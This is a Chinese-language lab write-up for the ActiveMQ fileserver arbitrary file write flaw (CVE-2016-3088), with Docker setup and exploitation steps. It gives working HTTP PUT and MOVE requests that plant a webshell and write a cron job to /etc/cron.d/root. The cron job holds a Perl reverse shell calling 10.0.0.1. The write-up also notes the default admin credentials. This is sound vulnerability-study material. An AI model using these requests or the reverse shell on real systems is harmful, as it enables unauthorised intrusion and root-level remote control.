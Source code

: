 # ActiveMQ任意文件写入漏洞（CVE-2016-3088）

## 环境搭建
```
port:61616,8161
```
搭建及运行漏洞环境：

```
docker-compose build
docker-compose up -d
```

环境监听61616端口和8161端口，其中8161为web控制台端口，本漏洞就出现在web控制台中。

访问`http://your-ip:8161/`看到web页面，说明环境已成功运行。

## 背景简述

ActiveMQ的web控制台分三个应用，admin、api和fileserver，其中admin是管理员页面，api是接口，fileserver是储存文件的接口；admin和api都需要登录后才能使用，fileserver无需登录。

fileserver是一个RESTful API接口，我们可以通过GET、PUT、DELETE等HTTP请求对其中存储的文件进行读写操作，其设计目的是为了弥补消息队列操作不能传输、存储二进制文件的缺陷，但后来发现：

1. 其使用率并不高
2. 文件操作容易出现漏洞

所以，ActiveMQ在5.12.x~5.13.x版本中，已经默认关闭了fileserver这个应用（你可以在conf/jetty.xml中开启之）；在5.14.0版本以后，彻底删除了fileserver应用。

在测试过程中，可以关注ActiveMQ的版本，避免走弯路。

## 漏洞详情

本漏洞出现在fileserver应用中，漏洞原理其实非常简单，就是fileserver支持写入文件（但不解析jsp），同时支持移动文件（MOVE请求）。所以，我们只需要写入一个文件，然后使用MOVE请求将其移动到任意位置，造成任意文件写入漏洞。

文件写入有几种利用方法：

1. 写入webshell
2. 写入cron或ssh key等文件
3. 写入jar或jetty.xml等库和配置文件

写入webshell的好处是，门槛低更方便，但前面也说了fileserver不解析jsp，admin和api两个应用都需要登录才能访问，所以有点鸡肋；写入cron或ssh key，好处是直接反弹拿shell，也比较方便，缺点是需要root权限；写入jar，稍微麻烦点（需要jar的后门），写入xml配置文件，这个方法比较靠谱，但有个鸡肋点是：我们需要知道activemq的绝对路径。

分别说一下上述几种利用方法。

### 写入webshell

前面说了，写入webshell，需要写在admin或api应用中，而这俩应用都需要登录才能访问。

默认的ActiveMQ账号密码均为`admin`，首先访问`http://your-ip:8161/admin/test/systemProperties.jsp`，查看ActiveMQ的绝对路径：

![](02.png)

然后上传webshell：

```
PUT /fileserver/2.txt HTTP/1.1
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 120976

webshell...
```

移动到web目录下的api文件夹（`/opt/activemq/webapps/api/s.jsp`）中：

```
MOVE /fileserver/2.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/s.jsp
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0


```

访问webshell（需要登录）：

![](03.png)

### 写入crontab，自动化弹shell

这是一个比较稳健的方法。首先上传cron配置文件（注意，换行一定要`\n`，不能是`\r\n`，否则crontab执行会失败）：

```
PUT /fileserver/1.txt HTTP/1.1
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 248

*/1 * * * * root /usr/bin/perl -e 'use Socket;$i="10.0.0.1";$p=21;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
##
```

将其移动到`/etc/cron.d/root`：

```
MOVE /fileserver/1.txt HTTP/1.1
Destination: file:///etc/cron.d/root
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0


```

如果上述两个请求都返回204了，说明写入成功。等待反弹shell：

![](01.png)

这个方法需要ActiveMQ是root运行，否则也不能写入cron文件。

### 写入jetty.xml或jar

理论上我们可以覆盖jetty.xml，将admin和api的登录限制去掉，然后再写入webshell。

有的情况下jetty.xml和jar等所有人是web容器的用户，所以相比起来，写入crontab成功率更高一点。

尚未测试。
